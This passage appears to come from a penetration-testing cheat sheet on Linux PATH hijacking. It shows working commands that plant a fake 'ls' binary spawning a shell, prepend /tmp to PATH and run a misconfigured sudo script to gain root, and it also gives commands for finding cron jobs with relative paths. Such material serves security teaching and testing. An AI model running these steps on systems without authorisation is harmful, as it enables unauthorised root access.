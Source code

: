 ## 🔧 Common Attack Scenarios

### Scenario 1: Sudo Script with Relative Commands
```bash
# Check sudo permissions
sudo -l

# Example vulnerable sudo entry:
# (root) NOPASSWD: /home/user/script.sh

# If script.sh contains relative commands:
cat /home/user/script.sh
# #!/bin/bash
# ls /tmp        # Vulnerable - uses relative 'ls'
# ps aux         # Vulnerable - uses relative 'ps'
```

**Exploitation:**
```bash
# Create malicious binaries
echo '#!/bin/bash' > /tmp/ls
echo '/bin/bash' >> /tmp/ls
chmod +x /tmp/ls

# Modify PATH to prioritize /tmp
export PATH=/tmp:$PATH

# Execute vulnerable sudo script
sudo /home/user/script.sh  # Triggers our malicious 'ls'
```

### Scenario 2: Cronjob Path Manipulation
```bash
# Check cron jobs for relative commands
cat /etc/crontab
ls -la /etc/cron.d/

# Look for scripts using relative paths
grep -r "#!/bin/sh" /etc/cron.d/ | xargs cat
```

**If cron job runs:**
```bash
*/5 * * * * root /script.sh
```

**And script.sh contains:**
```bash
#!/bin/sh
cp /important/file /backup/  # Vulnerable if PATH is manipulated
```

## 🎭 Script and Binary Hijacking
